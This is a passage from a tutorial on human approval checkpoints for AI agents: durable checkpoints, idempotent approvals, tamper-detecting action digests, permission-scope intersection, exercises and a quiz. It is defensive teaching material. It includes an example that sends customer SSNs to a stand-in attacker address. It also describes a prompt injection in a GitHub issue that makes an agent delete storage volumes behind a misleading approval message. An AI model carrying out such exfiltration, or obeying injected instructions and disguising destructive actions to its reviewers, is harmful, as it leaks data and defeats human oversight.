        db.execute("UPDATE checkpoints SET status=? WHERE checkpoint_id=? AND status=?", ("TIMED_OUT_DENIED", ckpt_id, "PENDING_APPROVAL"))
        return f"SLA_EXPIRED -> TIMED_OUT_DENIED (fail-closed) for tool_call_id={tc_id}"
    if decision == "APPROVE":
        cur = db.execute("UPDATE checkpoints SET status=? WHERE checkpoint_id=? AND status=?", ("EXECUTED", ckpt_id, "PENDING_APPROVAL"))
        if cur.rowcount == 0:
            return "IDEMPOTENT_NOOP (CAS lost race)"
        return f"EXECUTED {tool_name}({args_json}) with idempotency_key={idem_key}"
    if decision == "EDIT":
        if not edited_args or edited_args.get("amount_usd", 0) <= 0 or edited_args.get("amount_usd", 0) > 5000:
            return "REJECTED_EDIT_SCHEMA (amount_usd must be in (0, 5000])"
        new_digest = canonical_digest(tool_name, edited_args)
        db.execute("UPDATE checkpoints SET status=?, args_json=?, action_digest=? WHERE checkpoint_id=? AND status=?", ("EXECUTED_EDITED", json.dumps(edited_args, sort_keys=True), new_digest, ckpt_id, "PENDING_APPROVAL"))
        return f"EXECUTED_EDITED {tool_name}({json.dumps(edited_args, sort_keys=True)}) new_digest={new_digest[:16]}"
    if decision == "REJECT":
        db.execute("UPDATE checkpoints SET status=? WHERE checkpoint_id=? AND status=?", ("REJECTED", ckpt_id, "PENDING_APPROVAL"))
        tool_feedback = {"role": "tool", "tool_call_id": tc_id, "content": json.dumps({"status": "REJECTED_BY_HUMAN", "reason": reason})}
        return f"RESUMED_WITH_FEEDBACK -> {json.dumps(tool_feedback)}"

print("1) ReadOnly auto-path:", dispatch_tool("thr_1", "tc_1", "get_invoice", {"id": "inv_42"}, now_ts=1000))
p1 = dispatch_tool("thr_1", "tc_2", "issue_wire_refund", {"amount_usd": 4200, "to": "acct_99"}, now_ts=1000)
print("2) Interrupt saved:", p1)
print("3) First APPROVE:", resume_checkpoint(p1["checkpoint_id"], "APPROVE", now_ts=1120))
print("4) Double-click APPROVE:", resume_checkpoint(p1["checkpoint_id"], "APPROVE", now_ts=1121))
p2 = dispatch_tool("thr_2", "tc_3", "issue_wire_refund", {"amount_usd": 1200, "to": "acct_77"}, now_ts=1000)
print("5) Human EDIT:", resume_checkpoint(p2["checkpoint_id"], "EDIT", now_ts=1150, edited_args={"amount_usd": 450, "to": "acct_77"}))
p3 = dispatch_tool("thr_3", "tc_4", "issue_wire_refund", {"amount_usd": 900, "to": "acct_12"}, now_ts=1000)
print("6) Human REJECT:", resume_checkpoint(p3["checkpoint_id"], "REJECT", now_ts=1160, reason="Outside 30-day window; offer store credit"))
p4 = dispatch_tool("thr_4", "tc_5", "issue_wire_refund", {"amount_usd": 600, "to": "acct_05"}, now_ts=1000, ttl=300)
print("7) SLA Timeout:", resume_checkpoint(p4["checkpoint_id"], "APPROVE", now_ts=1450))
'
```

**Expected Output:**

```text
1) ReadOnly auto-path: {'mode': 'AUTO_EXECUTED', 'tool_msg': {'role': 'tool', 'tool_call_id': 'tc_1', 'content': 'invoice_42: $1,200'}}
2) Interrupt saved: {'mode': 'SUSPENDED_CHECKPOINT', 'checkpoint_id': 'ckpt_001_07af27', 'action_digest': '07af27ced067eaed', 'idempotency_key': 'thr_1:ckpt_001_07af27:07af27ced067'}
3) First APPROVE: EXECUTED issue_wire_refund({"amount_usd": 4200, "to": "acct_99"}) with idempotency_key=thr_1:ckpt_001_07af27:07af27ced067
4) Double-click APPROVE: IDEMPOTENT_NOOP (already terminal status=EXECUTED)
5) Human EDIT: EXECUTED_EDITED issue_wire_refund({"amount_usd": 450, "to": "acct_77"}) new_digest=c28cd25efd41d9e9
6) Human REJECT: RESUMED_WITH_FEEDBACK -> {"role": "tool", "tool_call_id": "tc_4", "content": "{\"status\": \"REJECTED_BY_HUMAN\", \"reason\": \"Outside 30-day window; offer store credit\"}"}
7) SLA Timeout: SLA_EXPIRED -> TIMED_OUT_DENIED (fail-closed) for tool_call_id=tc_5
```

### Workflow 2: Little's Law Worker Occupancy & `action_digest` Tamper Detection

Quantify concurrent held workers ($L = \lambda \cdot W$) and verify cryptographic detection of UI-spoofed / bait-and-switch tool arguments:

```bash
python -c '
import hashlib, json

def littles_law_workers(arrival_per_sec, wait_seconds):
    return arrival_per_sec * wait_seconds

for label, lam, wait_s in [
    ("Sync blocking HTTP/worker (5 min human review)", 1.5, 300.0),
    ("Async checkpoint release (50 ms DB persist)", 1.5, 0.05),
]:
    print(f"{label:<48} -> concurrent_workers_held L = {littles_law_workers(lam, wait_s):.2f}")

def digest(tool, args):
    return hashlib.sha256(json.dumps({"tool": tool, "args": args}, sort_keys=True).encode()).hexdigest()

shown_to_human = {"tool": "send_email", "args": {"to": "alice@corp.internal", "body": "Q3 summary"}}
tampered_exec  = {"tool": "send_email", "args": {"to": "exfil@attacker.invalid", "body": "customer_ssn.csv"}}
d_approved = digest(shown_to_human["tool"], shown_to_human["args"])
d_actual = digest(tampered_exec["tool"], tampered_exec["args"])
print(f"UI-spoof/tamper check: approved={d_approved[:16]} vs exec={d_actual[:16]} -> match={d_approved == d_actual}")
'
```

**Expected Output:**

```text
Sync blocking HTTP/worker (5 min human review)   -> concurrent_workers_held L = 450.00
Async checkpoint release (50 ms DB persist)      -> concurrent_workers_held L = 0.08
UI-spoof/tamper check: approved=ab59d2dce204b310 vs exec=b645551a8317cb0f -> match=False
```

### Workflow 3: Confused-Deputy RBAC Scope Intersection Check

Verify that an elevated agent service account cannot execute privileged actions triggered by a low-privilege requester or approved by an under-scoped reviewer:

```bash
python -c '
def authorize_hitl_action(required_scope, agent_scopes, requester_scopes, approver_scopes):
    effective = set(agent_scopes) & set(requester_scopes) & set(approver_scopes)
    allowed = required_scope in effective
    return allowed, sorted(effective)

cases = [
    ("Normal authorized refund", "refund:high_value", ["refund:high_value", "db:admin"], ["refund:high_value"], ["refund:high_value", "audit:read"]),
    ("Confused deputy (low-priv requester + elevated agent)", "db:drop_table", ["refund:high_value", "db:drop_table"], ["tickets:read"], ["db:drop_table"]),
    ("Unauthorized approver (tier-1 clicks tier-2 action)", "refund:high_value", ["refund:high_value"], ["refund:high_value"], ["refund:low_value"]),
]

for label, req, ag, rq, ap in cases:
    ok, eff = authorize_hitl_action(req, ag, rq, ap)
    print(f"{label:<54} | allowed={str(ok):<5} | effective={eff}")
'
```

**Expected Output:**

```text
Normal authorized refund                               | allowed=True  | effective=['refund:high_value']
Confused deputy (low-priv requester + elevated agent)  | allowed=False | effective=[]
Unauthorized approver (tier-1 clicks tier-2 action)    | allowed=False | effective=[]
```

### Hands-On Exercises

1. **Test Schema Bounds on Human Edits:** Call `resume_checkpoint` in Workflow 1 with `decision="EDIT"` and `edited_args={"amount_usd": 25000, "to": "acct_77"}` (exceeding the `5000` cap). Verify that server-side validation rejects the edit cleanly without flipping the checkpoint to `EXECUTED_EDITED`.
2. **Enforce Escalation Ladder States:** Add an `"ESCALATED_TO_MANAGER"` intermediate status in Workflow 1 triggered at `50%` of `ttl` (`now_ts > created_at + ttl // 2`), alerting a Tier-2 approver before hard `TIMED_OUT_DENIED` expiry.
3. **Optional Durable LangGraph Interrupt Exercise (Requires `langgraph`):** Implement a `StateGraph` backed by `SqliteSaver` (never `MemorySaver`), pause on an `IrreversibleExternal` refund tool via `interrupt()`, kill and restart the Python process, and verify `Command(resume=...)` resumes cleanly from disk using the same `thread_id`.

### Independent Challenge

A DevOps incident-response agent has access to `kubectl_get_pods`, `create_incident_note`, `scale_deployment`, and `kubectl_delete_pvc`. Product leadership complains that (a) engineers click `"Approve"` without reading when prompted `40` times per incident on read-only pod listings, (b) Slack approvals expire silently with no backup escalation during 3 AM outages, and (c) an external attacker embedded a prompt injection in a GitHub issue asking the agent to run `kubectl_delete_pvc` while displaying `"Approve harmless log cleanup?"` in the Slack notification. Design the complete blast-radius, async checkpoint, escalation, and anti-spoofing architecture.

<details><summary>Architectural Discussion</summary>

1. **Eliminating Approval Fatigue:** Classify `kubectl_get_pods` as `ReadOnly` (auto-execute), `create_incident_note` as `ReversibleWrite` (auto-execute + audit log), `scale_deployment` inside bounded replicas `[1, 20]` as `ReversibleWrite`, and `kubectl_delete_pvc` as `IrreversibleExternal` (mandatory interrupt). Engineers now see `1` critical interrupt instead of `40` noisy prompts.
2. **3 AM SLA Escalation Ladder:** Persist checkpoints in Postgres with `expires_at = created_at + 600s`; trigger a scheduler/cron alert at `t + 180s` paging the secondary on-call engineer, and transition atomically to `TIMED_OUT_DENIED` (fail-closed) if `expires_at` passes without action.
3. **Anti-Spoofing & Confused-Deputy Defense:** Bind the checkpoint to `action_digest = SHA256(canonical_json(tool, args))`, render the **exact tool name (`kubectl_delete_pvc`) and namespace/PVC args directly from the persisted JSON** inside Slack (never an LLM-authored summary string), verify `action_digest` on webhook callback, and enforce `required_scope in (agent_scopes & requester_scopes & approver_scopes)`.

</details>

---

## 7. Common Mistakes & Troubleshooting

- **Using `MemorySaver` / in-memory dicts for production HITL checkpoints:** A single Kubernetes rolling deployment or pod OOM wipeout destroys every pending `checkpoint_id`, stranding in-flight workflows forever. Always back checkpoints with durable transactional storage (`Postgres`, `SQLite`, or `DynamoDB`).
- **Returning `400` / corrupting thread history after human `REJECT`:** Dropping the pending `assistant.tool_calls` message or exiting without emitting a matching `tool` response leaves an unclosed `tool_call_id`. Always inject a structured `{"status": "REJECTED_BY_HUMAN", "reason": ...}` `role="tool"` message before resuming the loop.
- **Letting the LLM generate the approval card text shown to humans:** LLMs can be prompt-injected by external documents to fabricate misleading summaries (`"Harmless read operation"` hiding `drop_table`). Always render canonical `tool_name` + parsed `args_json` bound to `action_digest`.
- **Executing non-idempotent side effects before an `interrupt()` inside the same graph/step:** In durable execution engines like LangGraph, resuming after `interrupt()` re-executes node code from the top of the node prior to `interrupt()`. Place any pre-interrupt logic behind idempotent checks or separate nodes!

---

## 8. Operational Validation Checkpoints & Checkpoint Quiz

### Operational Validation Checkpoints

<details><summary><strong>Checkpoint 1: Fixing worker-pool exhaustion caused by human review delays</strong></summary>

An agent server with `64` async worker slots slows to a halt whenever `30` users await manager approvals averaging `4` minutes (`240 s`) each. Explain using Little's Law why async checkpoints fix this immediately.

**Validation:** Holding the worker coroutine open during human review yields $L = \lambda \cdot W$; even `0.3 req/s` hitting a `240 s` wait holds $L = 72$ worker slots continuously, saturating the `64`-slot pool. Persisting `(thread_id, checkpoint_id, state)` to Postgres in `50 ms` and releasing the worker drops $L$ to $0.3 \times 0.05 = 0.015$ slots, freeing `99.9%+` capacity for concurrent traffic.

</details>

<details><summary><strong>Checkpoint 2: Preventing duplicate wire transfers on Slack double-clicks</strong></summary>

Two identical `/hitl/approve` POST callbacks arrive `40 ms` apart for `ckpt_009`. How do you guarantee `stripe.Transfers.create()` runs **at most once**?

**Validation:** Combine (1) an atomic transactional Compare-And-Swap (`UPDATE checkpoints SET status='EXECUTING' WHERE checkpoint_id=$1 AND status='PENDING_APPROVAL' RETURNING *`) so only the winning request transitions out of `PENDING_APPROVAL` while the duplicate receives `0` rows (`IDEMPOTENT_NOOP`), and (2) pass a deterministic `idempotency_key = f"{thread_id}:{checkpoint_id}:{action_digest[:12]}"` to the Stripe API so even a network retry after execution returns the original cached transfer.

</details>

<details><summary><strong>Checkpoint 3: Handling human `REJECT` without breaking chat message schemas</strong></summary>

A human clicks `"Reject: Use a discount code instead of issuing a cash refund"` on `tool_call_id="tc_88"`. How must the runtime update message history before calling the LLM again?

**Validation:** The runtime must keep the original `assistant` message containing `tool_call_id="tc_88"` and append a synthetic `role="tool"` message with `tool_call_id="tc_88"` and JSON payload `{"status": "REJECTED_BY_HUMAN", "reason": "Use a discount code instead of issuing a cash refund"}`. This preserves strict `tool_call`/`tool` pairing (preventing HTTP `400`) while giving the model actionable feedback for its next turn.

</details>

### Checkpoint Quiz

1. Define the three blast-radius tiers (`ReadOnly`, `ReversibleWrite`, `IrreversibleExternal`) and explain why prompting humans for `ReadOnly` calls degrades security.
2. What fields belong in a durable HITL checkpoint token so workers can resume safely hours later across a pod restart?
3. Why must `EDIT` decisions be validated against the tool's JSON Schema and update the persisted `action_digest` and history?
4. Write the RBAC permission intersection rule that defeats confused-deputy privilege escalation.
5. How does `action_digest` binding defeat UI-spoofing attacks?

<details><summary>Answers</summary>

1. `ReadOnly` performs zero mutations; `ReversibleWrite` makes bounded, undoable local changes; `IrreversibleExternal` causes financial, destructive, or external side effects. Interrupting on `ReadOnly` causes severe approval fatigue, training reviewers to click `"Approve"` blindly on genuinely dangerous actions.
2. `thread_id`, monotonic/unique `checkpoint_id`, serialized state snapshot, `tool_call_id`, canonical `tool_name` + `args_json`, `action_digest` (`SHA-256`), `required_scope`, terminal `status`, `expires_at`, and `idempotency_key`.
3. Validating human edits prevents typos or privilege escalation beyond safe parameter bounds (e.g., refund caps), while updating `action_digest` and persisted args ensures downstream steps and audit logs reflect what was *actually* executed.
4. $\text{EffectiveScopes} = \text{AgentScopes} \cap \text{RequesterScopes} \cap \text{ApproverScopes}$; execution is permitted only if `required_scope` lies in all three sets.
5. By rendering the approval card strictly from the canonical `(tool_name, args_json)` hashed into `action_digest` rather than an LLM-written summary, and verifying the digest matches at resume time, attackers cannot disguise malicious tool parameters behind benign prose.

</details>

---

## Further Reading & Sources

- [LangGraph Docs: Human-in-the-Loop & Interrupts](https://langchain-ai.github.io/langgraph/concepts/human_in_the_loop/) — official patterns for `interrupt()`, `Command(resume=...)`, approve/edit/reject flows, and idempotent node execution.
- [LangGraph Docs: Persistence & Checkpointers](https://langchain-ai.github.io/langgraph/concepts/persistence/) — `thread_id`, durable Postgres/SQLite checkpointers, and deterministic state snapshots.
- [OpenAI Docs: Function Calling](https://platform.openai.com/docs/guides/function-calling) — strict `tool_call_id` response requirements across interrupted/resumed agent turns.
- [Track 13, Module 15: MCP Security and Trust Boundaries](../../13-model-context-protocol-mcp/15-security-and-trust-boundaries/README.md) — confused-deputy mitigation and untrusted tool parameter validation across agent boundaries.

## Next

[Module 14: An Agent Design Pattern Catalog](../14-an-agent-design-pattern-catalog/README.md)
